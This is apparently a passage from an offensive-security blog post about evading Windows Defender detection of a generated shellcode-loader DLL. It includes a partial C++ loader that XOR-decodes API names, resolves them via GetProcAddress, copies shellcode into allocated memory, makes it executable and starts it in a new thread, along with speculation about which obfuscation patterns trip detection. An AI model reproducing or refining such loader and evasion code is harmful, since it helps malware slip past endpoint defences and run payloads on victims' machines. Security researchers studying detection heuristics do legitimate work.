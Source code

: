 We could try a few things here, such as changing the randomly generated string length, adding digits in the random characters pool, or change the process injection method entirely! (Eg: CreateRemoteThread)

Changing the random string generation to include digits doesn't seeems to work. Example of the generated .cpp file:
```
[..snipped..]
extern "C" {
__declspec(dllexport) BOOL WINAPI NNvp7164(void) {
	
	void * WBAq9016;
	BOOL jBje8063;
	HANDLE xJIK8811;
    	DWORD KlQPuMC5262269 = 0;

        PRbvShcx22663990((char *) oKcRhGVV20305484, ezxTzFeO73259153, LvbWnD185662, sizeof(LvbWnD185662));

	HlKW4774 = GetProcAddress(GetModuleHandle("kernel32.dll"), oKcRhGVV20305484);
	WBAq9016 = HlKW4774(0, RifRipK9881400, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
	
	PRbvShcx22663990((char *) WxBVfq459525, RifRipK9881400, TJvEiReD82699069, sizeof(TJvEiReD82699069));
	
	RtlMoveMemory(WBAq9016, WxBVfq459525, RifRipK9881400);
	
        PRbvShcx22663990((char *) SDuypec5887106, KkYRRl658980, PnjQClTq26117366, sizeof(PnjQClTq26117366));

	KxOf2915 = GetProcAddress(GetModuleHandle("kernel32.dll"), SDuypec5887106);
	jBje8063 = KxOf2915(WBAq9016, RifRipK9881400, PAGE_EXECUTE_READ, &KlQPuMC5262269);

	// If all good, launch the payload
	if ( jBje8063 != 0 ) {
		        PRbvShcx22663990((char *) RhZxK61345, TRnaXqO8057796, QSrTwReL58014914, sizeof(QSrTwReL58014914));
		        CzriWyM0413999 = GetProcAddress(GetModuleHandle("kernel32.dll"), RhZxK61345);
			xJIK8811 = CzriWyM0413999(0, 0, (LPTHREAD_START_ROUTINE) WBAq9016, 0, 0, 0);
		        PRbvShcx22663990((char *) yEpO3700, saSQCfB0574003, gfFEzi530686, sizeof(gfFEzi530686));
			QhTIQ62054 = GetProcAddress(GetModuleHandle("kernel32.dll"), yEpO3700);
[..snipped..]

```

Yikes. How? The .cpp has been mangled with so much randomised crap. Next attempt is to pinpoint exactly what is triggering. Removing the XOR encrypted shellcode doesn't help either. A harmless .DLL without any payload is being flagged as malicious by Windows Defender. Interesting.... or not.

Windows Defender catches all these 'dynamic' payloads by assessing if there are too many randomised 'junk' data in a binary. This means that regardless if your payload is malicious or not, if your binary contains an amount of junk data exceeding what is their defined 'safe benchmark', or repeated use of 'suspicious' patterns combination, your payload will be flagged. This could be the length of a variable, repeated use of certain 'blacklisted' characters (such as the concatenation character, importing of win32 api 'Declare', etc. used in VBA), or in this case, calling the XOR function before GetProcAddress. (what???)
